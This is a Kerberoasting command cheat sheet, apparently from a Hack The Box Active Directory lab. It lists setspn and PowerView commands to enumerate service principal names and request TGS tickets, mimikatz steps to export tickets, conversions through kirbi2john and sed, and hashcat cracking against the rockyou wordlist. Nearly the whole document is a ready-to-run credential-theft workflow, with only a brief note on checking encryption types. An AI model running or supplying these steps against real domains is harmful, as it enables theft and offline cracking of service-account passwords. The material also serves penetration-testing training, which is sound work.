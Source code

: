 

Enumerate SPN's via setspn
```cmd-session
setspn.exe -Q */*
```

Request All Tickets via setspn
```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

Request TGS for User Account
```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

Request TGS for User Account via powershell
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


Extracting Tickets with mimikatz
```cmd-session
mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export
```
Converting mimikatz base64 blob for cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n
```

Convert base64 file to kirbi file
```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

Extracting kirbi with john
```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```

Convert kirbi for hashcat from john format
```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Cracking kirbi with hashcat
```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.tx
```

Request tickets with powershell
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

Extracting tickets to csv files
```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

Check for encryption type 0 = rc4 24 = aes
```powershell-session
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

Path to supported encryption types
```Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options```


